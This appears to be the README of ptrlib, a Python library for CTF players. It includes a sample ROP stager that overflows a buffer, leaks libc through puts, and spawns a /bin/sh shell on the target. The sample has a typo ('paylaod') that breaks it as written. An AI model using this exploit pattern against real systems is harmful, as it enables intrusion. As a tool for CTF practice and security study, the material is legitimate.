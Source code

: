 ptrlib
====

![Python application](https://github.com/ptr-yudai/ptrlib/workflows/Python%20application/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Requirements
Supports: Python 3.x

Library Dependency:
- pycryptodome
- pywin32 (If you want to handle Windows process)

External Program:
- If you want to use `SSH` function, the following programs are required:
  - ssh (Default path: `/usr/bin/ssh`)
  - expect (Default path: `/usr/bin/expect`)

## Usage
Basic examples are available at [/examples](https://bitbucket.org/ptr-yudai/ptrlib/src/master/examples/).

## Quick Document
There are many functions in ptrlib but let's see how to use it for pwn.
You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```
If you have the target binary or libc, it's recommended to load the binary first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
And you can use useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is the pwn example of ROP stager.
```python
plt_gets = elf.plt("gets")
stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  rop_pop_rdi,
  elf.got("puts"),
  elf.plt("puts"),
  rop_pop_rdi,
  stage2,
  elf.plt("gets"),
  rop_pop_rbp,
  stage2,
  rop_leave_ret
], map=p64)
sock.sendlineafter("Data: ", payload)

libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
libc.set_base(libc_base)
payload = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(next(libc.find("/bin/sh")))
payload += p64(libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
